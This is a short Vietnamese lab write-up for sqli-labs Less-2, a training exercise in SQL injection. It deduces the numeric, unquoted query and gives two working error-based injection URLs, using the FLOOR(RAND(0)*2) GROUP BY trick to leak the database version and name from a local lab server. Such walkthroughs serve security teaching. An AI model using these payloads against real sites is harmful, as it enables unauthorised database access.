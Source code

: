 # Less 2

Ta thấy ở bài này là lỗi error based

![](../images/sqli-labs/Less-2/l21.png)

Đề bài yêu cầu truyền vào giá trị là số

![](../images/sqli-labs/Less-2/l22.png)

Nhập thử một số giá trị

![](../images/sqli-labs/Less-2/l23.png)

Dự đoán câu query sẽ là:

```
select name, passwd from table where id='$ID'
```

Tiếp tục truyền vào một số giá trị

![](../images/sqli-labs/Less-2/l24.png)

![](../images/sqli-labs/Less-2/l25.png)

Chứng tỏ `$ID` không nằm trong dấu nháy. Câu query có thể là:

```
select name, passwd from table where id=$ID
```

![](../images/sqli-labs/Less-2/l26.png)

Câu query lúc này có thể là:

```
select name, passwd from table where id=$ID limit 0,1
```

Ta có thể xem được một số thông tin của DB

```
http://192.168.84.233/sqli-labs/Less-2/?id=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-2/01.png)

```
http://192.168.84.233/sqli-labs/Less-2/?id=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-2/02.png)

Thao tác được giống với ở [Less-1](sqli-labs/Less-1.md)